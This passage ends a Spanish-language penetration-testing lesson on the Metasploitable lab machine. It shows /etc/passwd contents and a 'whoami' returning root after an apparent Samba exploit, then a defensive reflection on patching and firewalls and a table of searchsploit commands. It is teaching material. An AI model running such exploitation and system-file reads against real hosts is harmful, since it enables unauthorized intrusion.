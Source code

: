 ```sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
cat /etc/hostname
metasploitable
whoami
root
```

## Reflexión Final

Este ejercicio demuestra cómo una vulnerabilidad en un servicio expuesto, como Samba, puede dar control total a un atacante. Por eso es crítico:

- Mantener el software actualizado.
- Cerrar puertos innecesarios.
- Realizar escaneos periódicos.
- Limitar el acceso mediante firewalls y redes segmentadas.

_**Ahora si, ¿Ya ves por qué debemos configurar nuestros hosts de manera segura con actualizaciones de los softwares de los puertos?**_.

**Tabla de comando de la lección.**

| Comando                          | Descripción                                         |
|----------------------------------|-----------------------------------------------------|
| `searchsploit [término]`         | Búsqueda simple                                     |
| `searchsploit -x [ruta]`         | Mostrar contenido del exploit                      |
| `searchsploit -m [ruta]`         | Copiar el archivo al directorio actual             |
| `searchsploit --exclude=“...”`   | Excluir resultados por palabra clave               |
| `searchsploit -w`                | Mostrar URLs en lugar de rutas locales             |
| `searchsploit --nmap archivo.xml`| Analizar salida XML de escaneo Nmap                |
